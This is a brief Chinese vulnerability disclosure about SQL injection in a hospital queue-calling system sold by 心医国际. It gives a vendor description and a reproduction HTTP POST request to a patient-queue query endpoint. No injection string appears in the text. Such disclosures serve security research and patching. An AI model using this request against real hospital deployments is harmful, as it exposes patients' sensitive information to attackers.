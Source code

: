 # 心医国际排队叫号系统SQL注入漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际是中国专业的医疗云应用解决方案提供商，铺建并运营全国领先的智能医疗云平台，依托十年的数据积累和业务实践，持续创新智能医疗场景应用。业务服务覆盖诊疗、教学、科研、管理等多维度，助力政府、医院及产业合作伙伴，打造线上线下高效协同的智慧医疗健康服务体系，目前已建成覆盖全国31个省，联结2万余家医疗机构的智能医疗云平台，助力建设并服务青海、河南、陕西、山西、贵州、新疆、江西、广西、甘肃9大省级远程医疗平台，服务通达80%全国三甲级医院;成功建设并服务全国300余个省、市、县及专科医联体。心医国际排队叫号系统存在SQL注入漏洞，攻击者可通过该漏洞获取系统敏感信息  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际排队叫号系统</font>

![1714370816089-16a52d5d-c05c-428d-b89c-edb192fe6512.png](./img/s5tva-HDWfzF2MGk/1714370816089-16a52d5d-c05c-428d-b89c-edb192fe6512-526235.png)<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、漏洞复现</font>**

```plain
POST /showqueue/showqueue/patient/queryQueueInfo HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 104

patientstatus=&queueID=&department=&waitarea=&name=&startTime=&endTime=&curPage=0&queueNumber=&operator=
```

![1714374261063-c303ed6b-542b-49e7-b544-24d37b429933.png](./img/s5tva-HDWfzF2MGk/1714374261063-c303ed6b-542b-49e7-b544-24d37b429933-518638.png)





> 更新: 2024-06-17 09:27:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aa43lw54m4qgvg9s>